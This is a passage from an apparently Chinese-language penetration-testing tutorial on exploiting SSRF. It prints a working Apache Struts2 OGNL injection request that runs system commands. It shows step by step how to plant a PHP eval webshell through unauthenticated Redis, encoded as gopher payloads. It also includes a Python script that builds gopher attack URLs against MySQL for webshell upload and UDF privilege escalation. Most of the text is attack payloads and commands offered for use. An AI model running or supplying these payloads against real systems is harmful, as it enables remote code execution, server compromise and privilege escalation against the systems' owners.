 ```
poc:
GET /showcase.action HTTP/1.1
Host: 192.168.123.140:8080
Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

两次url编码在ssrf.php?url处请求即能看到回显

#### 攻击内网redis

传统的利用redis未授权漏洞写入shell的流程

```
redis-cli -h 192.168.121.138
192.168.121.138:6379>config set dir /var/www/html 
192.168.121.138:6379>config set dbfilename shell.php 
192.168.121.138:6379> set shell "\r\n<?php @eval($_POST['1']);?>\r\n
192.168.121.138:6379>save
```

使用tcpdump对网卡进行回环抓包，并将完整数据写入a.cap

```
tcpdump -i lo port 6379 -s 0 -w a.cap
```

打开wireshark追踪写码过程的数据流，并以与原始数据报错到a.txt,利用下面的命令对a.txt进行编码

```
cat a.txt|xxd -plain|sed -r 's/(..)/%\1/g'|tr -d '\n'
```

然后使用gopher协议发送到6379端口，完成手写操作，也可以直接使用工具生成攻击redis的gopher协议

#### 攻击mysql

当遇到mysql无密码或者是不需要密码就可以进行登陆的时候，我们可以利用gopher攻击mysql

内容基本上与攻击redis一致，但需要注意gopher攻击mysql时不一定能够看到回显，我们通常需要拿一个webshell，所以基本上是通过select into outfile和udf进行提权

将追踪的原始数据改为一行用如下脚本进行编码；

```python
#encoding:utf-8

def result(s):
	a=[s[i:i+2] for i in xrange(0,len(s),2)]
	return "curl gopher://127.0.0.1:3306/_%" + "%".join(a)

if __name__ == '__main__':
	import sys
	s=sys.argv[1]
	print result(s)
```

